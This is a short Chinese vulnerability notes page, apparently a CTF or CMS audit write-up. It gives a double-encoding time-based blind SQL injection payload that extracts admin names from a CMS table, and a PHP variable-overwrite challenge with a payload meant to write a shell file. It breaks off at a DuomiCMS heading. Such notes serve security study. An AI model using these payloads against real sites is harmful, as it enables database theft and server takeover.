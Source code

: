 - 漏洞思路

*SQL注入点是字符型注入，htmlEncode方法实体编码了单引号，最后进行了url解码操作，可以通过双编码绕过，htmlEncode方法没有过滤反斜杠，而addslashes方法会过滤反斜杠。*

- 构造SQL

```
wd=))||if((select%0b(select(m_name)``from(mac_manager))regexp(0x5e61)),(`sleep`(3)),0)#%25%35%63
```

## 从变量覆盖到getshell
### Snowman

- code

```php
class Carrot {
  const EXTERNAL_DIRECTORY = '/tmp/';
  private $id;
  private $lost = 0;
  private $bought = 0;

  public function __construct($input) {
    $this->id = rand(1, 1000);

    foreach ($input as $field => $count) {
      $this->$field = $count++;
    }
  }

  public function __destruct() {
    file_put_contents(
      self::EXTERNAL_DIRECTORY . $this->id,
      var_export(get_object_vars($this), true)
    );
  }
}

$carrot = new Carrot($_GET);
```

- payload 

```
id=shell.pho&shell=',)%0a// 
```

- 测试

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200513120025.png)


### DuomiCMS_3.0

- 环境搭建
